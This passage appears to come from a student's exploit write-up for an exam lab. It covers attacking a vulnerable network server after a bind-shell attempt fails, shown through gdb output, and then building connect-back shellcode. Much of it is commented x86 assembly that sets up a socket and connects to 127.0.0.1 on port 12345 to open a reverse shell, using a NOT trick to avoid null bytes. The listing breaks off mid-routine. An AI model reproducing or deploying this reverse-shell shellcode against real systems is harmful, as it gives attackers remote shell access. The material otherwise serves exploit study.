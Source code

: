 here is the shellcode... Unfortunately it doesn't work as expected... We didn't see the file of the current folder in the client side. Instead we can see that on the **server side**:
	
```sh
	(gdb) r
	Starting program: /home/student/Documents/exam/server 
	[Thread debugging using libthread_db enabled]
	[New Thread 0x16e7b70 (LWP 21523)]
	[Thread 0x16e7b70 (LWP 21523) exited]
	process 21514 is executing new program: /bin/bash
	Missing separate debuginfos, use: debuginfo-install glibc-2.12-1.149.el6.i686
	Detaching after fork from child process 21532
```
	
So... I'm done with this... Nothing work as expected and I don't know why... I tried several things but nothing WORKS. the **sh-4.1$** freeze in client side and I can't execute any command. There is obviously a problem with the fact that we try to connect on the same port 8001 or something. So let's try the last way to attack the server.
	
### --[ 3.2 - Use Connect Back Shellcode
	
Ok nothing works until now, and I spend lots of time to find a solution to the problem. Why it doesn't work ? What is wrong. But I don't understand what's going on the computer. So when a solution doesn't work and we don't know why we keep continue by finding another	way to do it. So now let's create a **Connect Back Shellcode on port 12345** for example.
	
The principle :
The server is running on the remote computer. I create a socket that listen on port 12345
on my computer.	I launch the exploit on my computer. My exploit launch a connection on the
port 12345 (so connect to the socket I create) and execute a shell.
	
So as I already explain how to create a shellcode in the part **3.1** I won't explain it
again but the principle remains the same. This time we create a socket with `socket()`,
then we connect to the socket with `connect()`. the asm code for `connect()` looks almost
the same as the one for `bind()` but this time `%ebx = 3 = connect()` and beside the port
we have to put _ip address_ on which we will to connect. I connect on _127.0.0.1_. In
assembly it's _0x0100007f_. Yet there are **NULL bytes** so I use a "not technique". I write
0xfeffff80 (which is 128.255.255.254) and I **not** this value before pushing it into the
stack. So let's see the payload:
	
```assembly
		.globl main
		.type	main, @function

	main:
	#socket(AF_INET, SOCK_STREAM, 0);
	xor %ebx, %ebx			# clear ebx
	mul %ebx			# clear eax
	inc %bl				# %ebx = 1 = socket() (bl = lsb of ebx)
	movb $0x66, %al 		# socketcall() in %eax, al = lsb of %eax
	cdq				# bits of %edx are equal of the mst of %eax
					# i.e here equivalent at mov $0x0, %edx
	push %edx			# IPPROTO_IP
	push $0x1 			# SOCK_STREAM
	push $0x2 			# AF_INET
	mov %esp, %ecx			# move pointer to args to ecx
	int $0x80 			# call socket(), %eax contain the socket descriptor
	xchg %eax, %esi 		# save the descriptor in %esi for later use

	#connect(s, [AF_INET, 12345, 127.0.0.1], 16);
	push $0x66			# push/pop cost less then mov $0x66, %eax
	pop %eax			# socketcall() in %eax
	inc %ebx 			# %ebx = 1 so inc %ebx -> %ebx = 2 = bind()
	mov $0xfeffff80, %edi		# (0xfeffff80 = 128.255.255.254)
	not %edi			# %edi is now 127.0.0.1
	push %edi			# push ip = 127.0.0.1
	pushw $0x3930 			# PORT = 12345 (reverse cause 12345d = 0x3039)
```